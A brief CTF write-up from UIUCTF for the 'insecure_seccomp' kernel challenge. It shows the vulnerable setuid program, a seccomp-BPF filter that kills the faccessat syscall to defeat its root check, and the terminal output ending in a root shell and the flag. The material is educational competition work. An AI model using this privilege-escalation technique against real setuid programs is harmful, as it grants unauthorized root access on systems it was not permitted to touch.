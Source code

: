 # uiuctf
During uiuctf, I solved
 * `[kernel] insecure_seccomp`
 * `[pwn] should've had a v8`

I also tried doing `[pwn] gonnegtions`, but I couldn't get my exploit working on remote.

None of these write-ups are particularly detailed. I didn't try to figure out _why_ the `insecure_seccomp` exploit worked, the v8 challenge wasn't unique enough to justify in-depth elaboration, and `gonnegtions` wasn't even fully solved by me. I'm publishing these write-ups out of habit; they're not my best work.

## insecure_seccomp [2nd blood]

```c
int main(int argc, char *argv[])
{
        if (!faccessat(AT_FDCWD, "/flag", R_OK, AT_EACCESS)) {
                fprintf(stderr, "You can't be root to execute this! ... or can you?\n");
                return 1;
        }

        setuid(geteuid());

        execl("/bin/sh", "sh", NULL);
        perror("execl");
        return 1;
}
```

Just block the `faccessat()` call with a seccomp filter against the `faccessat` syscall:

```c
// mostly from seccomp-bpf.h
#include <stddef.h>
#define syscall_nr (offsetof(struct seccomp_data, nr))
#define EXAMINE_SYSCALL BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)

struct sock_filter insns[] = {
    // Your filter here
    EXAMINE_SYSCALL,
    BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_faccessat, 0, 1),
    BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),
    BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW),
};
```

Compile `starter.c` with the new filter, and copy paste the output into `./seccomp_loader` on remote:

```sh
/usr/local/bin $ ./seccomp_loader ./exploit_me
4
0020 00 00 00000000
0015 00 01 0000010d
0006 00 00 00000000
0006 00 00 7fff0000
/usr/local/bin # cat /flag
uiuctf{seccomp_plus_new_privs_equals_inseccomp_e84609bf}
```
